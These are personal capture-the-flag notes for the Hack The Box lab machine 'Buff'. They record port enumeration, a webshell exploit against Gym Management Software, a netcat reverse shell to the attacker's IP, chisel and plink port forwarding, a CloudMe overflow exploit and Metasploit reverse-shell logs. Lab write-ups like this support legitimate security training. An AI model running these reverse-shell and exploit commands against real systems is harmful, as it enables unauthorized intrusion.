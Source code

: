 # Buff

10.10.10.198

# Enumerate

## Scan

* 7680: pando-pub
* 8080: web-page

## Explore Services

* Web
  * projectworlds.in copyright?
  * contact page has 'gym managemetn sw 1.0'?
  * dirbuster
    * /profile/ gives parse error that shows it's running xampp
    * /img/ shows Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
    * /cgi-bin/ -> nothing
    * /admin/ page to 'create a pdf invoice with php' 
    * /upload and /upload/ w/ 301 & 403

# Accessmsf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.19:1234 
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 10.10.10.198
[*] Command shell session 1 opened (10.10.14.19:1234 -> 10.10.10.198:49710) at 2020-11-06 16:29:20 -0500

* 7680 - actually pando? Maybe WUDO? Can send files to it maybe? No vuln listed for either. 

* login vulnerable? never ran sqlmap

* msf5 exploit(multi/handler) > exploit
  
  [*] Started reverse TCP handler on 10.10.14.19:1234 
  [*] Encoded stage with x86/shikata_ga_nai
  [*] Sending encoded stage (267 bytes) to 10.10.10.198
  [*] Command shell session 1 opened (10.10.14.19:1234 -> 10.10.10.198:49710) at 2020-11-06 16:29:20 -0500Admin page
  
* * can change it to allow me to upload but doesn't let me run things since it wants to transfer an image to I guess just include it in the pdf. 
  
* Apparently the gym management thing isn't just made up and it's real and there's an exploit for it. 

* ~~~
  pat@kali:~/Desktop/Cert_Prep/htb/Windows/Buff$ python 48506.py "http://10.10.10.198:8080/"
              /\
  /vvvvvvvvvvvv \--------------------------------------,                                                                                                                                                                                                  
  `^^^^^^^^^^^^ /============BOKU====================="
              \/
  
  [+] Successfully connected to webshell.
  C:\xampp\htdocs\gym\upload> 
  
  ~~~

# Escalate

* Need to get user flag from someone else maybe? Says I'm buff/shaun

* Maybe now with access I can upload a better shell over ps or something?

* Upload nc and use that to get shell

* ~~~
  nc 10.10.14.19 1235 -e cmd.exe
  # That gives me a local shell after using nc -lvnp 1235
  # Interactive shell and I can CD to shaun
  C:\Users\shaun\Desktop>type user.txt
  type user.txt
  <>
  
  ~~~

* Could have also done it with url. Since the php script uses a shell exec on $_GET[], if I visit that php file and put ?telepathy=<> that will run the command. 

* Fine the CloudMe binary in the Downloads and searchsploit gives an exploit for it. 

* Use netstat and tasklist and there's a few other ports that I don't expect something to be listening on? The 49X ones are probably some windows thing? Not sure what 7680 is. The exploit has the port as 8888 so that's probably it. 

* Tried to get something to forward the local port

  * plink didn't seem to work, just getting errors on connecting? 
  * chisel didn't work - tried in both directions
  * I can't run an uploaded meterpreter payload? 

* I guess I just wasn't using them right. Not sure what the issue was but I got chisel to work. I may have been trying to double up on ports and it didn't error at me it just failed without saying that there was a port conflict since the client doesn't really know? Apparenlt 

~~~
pat@kali:~/Desktop/Cert_Prep/htb/Windows/Buff$ ./chisel_1.7.2_linux_amd64 server -p 8080 -reverse

C:\xampp\htdocs\gym\upload>chisel.exe client 10.10.14.19:8080 R:8889:127.0.0.1:8888
chisel.exe client 10.10.14.19:8080 R:8889:127.0.0.1:8888
2020/11/06 21:25:54 client: Connecting to ws://10.10.14.19:8080
2020/11/06 21:25:55 client: Fingerprint 7d:aa:ef:2d:27:c6:67:a1:e9:e9:1d:00:cc:6f:c8:40
2020/11/06 21:25:55 client: Connected (Latency 131.232ms)

//start listener and change the shellcode in the exploit
// msfvenom -p LHOST= LPORT= -f python

pat@kali:~/Desktop/Cert_Prep/htb/Windows/Buff$ python 48389.py 
~~~

Comment on another page that plink works with this. I had tried without the echo but I think that he just added that to go through webshell. Other sources in the excel didn't work either. 

~~~
echo y | plink.exe [10.10.14.10]-l root -pw "password" -R 4000:[127.0.0.1:8888]
~~~

Either way, get a callback to msf and then get flag. 

~~~
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.19:1234 
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 10.10.10.198
[*] Command shell session 1 opened (10.10.14.19:1234 -> 10.10.10.198:49710) at 2020-11-06 16:29:20 -0500
~~~



